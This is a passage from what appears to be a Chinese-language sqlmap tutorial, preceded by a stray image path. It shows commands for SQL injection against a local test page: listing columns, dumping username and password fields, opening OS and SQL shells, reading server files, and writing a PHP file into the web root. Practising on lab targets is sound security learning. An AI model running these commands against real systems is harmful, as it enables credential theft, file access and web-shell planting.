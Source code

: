 查看表的列名

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --columns -T manage_user -D xycms

-T manage_user
#指定表名manage_user
--columns
#查看表的列名
```

查看字段

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --dump -C m_name,m_pwd -T  manage_user -D xycms

-C m_name,m_pwd
#指定列名m_name和m_pwd
--dump
#查看字段
```

执行系统命令

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --os-shell

--os-shell
#执行系统命令——自己探测其根目录地址，写入一个php文件，然后让php文件帮我们执行某些命令——可能失败
```

执行sql语句

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --sql-shell

--sql-shell
#执行sql语句
```

读取文件

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --file-read="C:\phpStudy\WWW\index.php"

--file-read="C:\phpStudy\WWW\index.php"
#读取文件
```

写入文件

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --file-write="C:\1.php" --file-dest="C:\phpStudy\WWW\xxx.php"

--file-write="C:\1.php" --file-dest="C:\phpStudy\WWW\xxx.php"
#写入文件
```
